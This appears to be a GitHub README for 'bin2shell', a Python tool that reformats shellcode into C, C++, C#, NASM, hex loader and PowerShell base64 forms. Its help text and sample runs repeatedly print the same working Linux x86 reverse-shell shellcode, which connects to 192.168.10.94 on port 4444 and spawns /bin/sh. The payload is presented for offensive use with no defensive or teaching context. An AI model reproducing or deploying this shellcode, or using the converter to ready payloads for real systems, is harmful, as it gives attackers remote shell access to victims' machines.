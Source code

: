  <h1 align="center">
  🐚 bin2shell
</h1>
<p align="center">
   <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell&label=Visitors&countColor=%2337d67a" />
  </a>
    <a href="https://www.facebook.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.python.org/">
    <img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python">
</p>
<br>

## 📜 Description
A small script that generate shellcode from various low level languages. 

📚 Table of Contents
- 📜 [Description](#-description)
- ⚙️ [Help](#-help)
- 👨🏾‍⚖️ [License](#-license)

## ⚙️ Help
```bash
python3 bin2shell.py -h
  
  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Payload Converter / v1.4

usage: bin2shell.py [-h] -bin BIN [-c C] [-cpp CPP] [-cs CS] [-asm ASM] [-bof BOF] [-psb64 PSB64]

Binary to shellcode and payload converter

options:
  -h, --help    show this help message and exit
  -bin  BIN     Input shellcode binary file
  -c    C       Convert binart into C raw shellcode
  -cpp  CPP     Convert binary into CPP raw shellcode
  -cs   CS      Convert binary into C# raw shellcode
  -asm  ASM     Convert binary into (NASM) raw shellcode
  -bof BOF      Convert BOF into raw shellcode (ex: -bof bof.x64.o)
  -psb64 PSB64  Convert powershell to base64 (ex: -psb64 test.ps1)

Example usage: python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt
```
## Usage
### Binary payload to C shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Payload Converter / v1.4


Formatted C Shellcode:

"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" 
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x0a\x5e\x68" 
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1" 
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3" 
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Saved C formatted shellcode to shellcode_c.txt
```
### Binary payload to C++ shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cpp shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Payload Converter / v1.4 

Formatted C++ Shellcode:

const char shellcode[] = {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C++ formatted shellcode to shell.txt
```
### Binary payload to C# shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cs shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Payload Converter / v1.4 

Formatted C# Shellcode:

byte[] shellcode = new byte[] {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C# formatted shellcode to shell.txt
```
### BOF loader to shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -bof shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Payload Converter / v1.4 

Formatted BOF Loader Shellcode:

31dbf7e35343536a0289e1b066cd809359b03fcd804979f968c0a80a5e680200115c89e1b066505153b30389e1cd8052686e2f7368682f2f626989e3525389e1b00bcd801c3fe6e948000000

Saved BOF Loader formatted shellcode to shell.txt
```
### Binary payload to ASM shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -asm shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Payload Converter / v1.4

Formatted ASM Shellcode:

section .text
global _start

_start:
        jmp shellcode

shellcode:
        db 0x31
        db 0xdb
        db 0xf7
        db 0xe3
        db 0x53
        db 0x43
        db 0x53
        db 0x6a
        db 0x02
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0xcd
        db 0x80
        db 0x93
        db 0x59
        db 0xb0
        db 0x3f
        db 0xcd
        db 0x80
        db 0x49
        db 0x79
        db 0xf9
        db 0x68
        db 0xc0
        db 0xa8
        db 0x0a
        db 0x5e
        db 0x68
        db 0x02
        db 0x00
        db 0x11
        db 0x5c
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0x50
        db 0x51
        db 0x53
        db 0xb3
        db 0x03
        db 0x89
        db 0xe1
        db 0xcd
        db 0x80
        db 0x52
        db 0x68
        db 0x6e
        db 0x2f
        db 0x73
        db 0x68
        db 0x68
        db 0x2f
        db 0x2f
        db 0x62
        db 0x69
        db 0x89
        db 0xe3
        db 0x52
        db 0x53
        db 0x89
        db 0xe1
        db 0xb0
        db 0x0b
        db 0xcd
        db 0x80

Saved ASM formatted shellcode to shell.txt
``` 
 
## 👨🏾‍⚖️ License
This project is under terms of the [MIT License](LICENSE). bugs and error's, create [issue](https://github.com/l0n3m4n/bin2shell/issues/new)
